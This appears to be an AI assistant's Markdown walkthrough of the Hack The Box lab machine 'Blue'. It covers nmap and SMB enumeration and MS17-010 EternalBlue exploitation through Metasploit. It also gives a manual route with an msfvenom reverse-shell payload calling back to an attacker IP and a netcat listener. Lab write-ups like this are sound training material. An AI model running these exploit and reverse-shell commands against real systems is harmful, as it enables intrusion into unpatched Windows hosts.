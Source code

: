 Here’s a clean and comprehensive walkthrough for **HTB: Blue**, structured and annotated for efficient review and future reference. This follows your preferred layout of phases and commands for HTB machine notes 📘.

---

# 🧊 HTB: Blue Walkthrough

**Machine Info:**
- **IP**: `10.10.10.40`
- **OS**: Windows 7 Professional SP1 (x64)
- **Difficulty**: Easy
- **Exploit**: MS17-010 (ETERNALBLUE)
- **Privilege Escalation**: Not needed – initial shell is SYSTEM 🎯

---

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.40
```

### 🎯 Targeted Script & Version Detection
```bash
nmap -p 135,139,445 -sCV -oA scans/nmap-tcpscripts 10.10.10.40
```

**Open Ports:**
- `135` (MS RPC)
- `139` (NetBIOS)
- `445` (SMB)
- Several in `49152-49157`

### 🛑 Vulnerability Check for MS17-010
```bash
nmap -p 445 --script vuln -oA scans/nmap-smbvulns 10.10.10.40
```

Output confirms:
```
VULNERABLE: Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
```

---

## 📁 SMB Enumeration

### 🧭 Guest Enumeration
```bash
smbmap -H 10.10.10.40 -u "0xdf" -p "0xdf"
```

### 🔎 Check Shares with `smbclient`
```bash
smbclient //10.10.10.40/share
smbclient //10.10.10.40/users
```

> Both readable, but no interesting files – just default folders.

---

## 💣 Exploitation – EternalBlue via Metasploit

### 🚀 Use Exploit Module
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.14
run
```

> ✅ Successful shell as `NT AUTHORITY\SYSTEM`

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 🔄 Drop to Shell
```bash
meterpreter > shell
```

---

## 🏁 Flags

```bash
C:\Users\haris\Desktop> type user.txt
4c546aea************************

C:\Users\Administrator\Desktop> type root.txt
ff548eb7************************
```

---

## 🐍 Optional – Exploit with Python (for OSCP-like scenarios)

### ⚙️ Setup Python2 VirtualEnv for Impacket
```bash
sudo apt install virtualenv
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
pip install -r requirements.txt
pip install .
```

### 📦 Payload Generation
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
```

### 📤 Exploit Execution
```bash
python send_and_execute.py 10.10.10.40 rev.exe
```

### 🎧 Catch the Shell
```bash
rlwrap nc -lnvp 443
```

---

## 🧠 Lessons Learned

- MS17-010 is still widely useful in legacy environments.
- Metasploit is stable for this exploit, but Python tools offer good practice for manual setups.
- Always check for anonymous access and vulnerable SMB services.
- No privilege escalation needed: initial shell is SYSTEM.

---

Let me know if you'd like this exported as a Markdown or PDF report, or if you'd like to chain all walkthroughs into one HTB notebook! 📘💼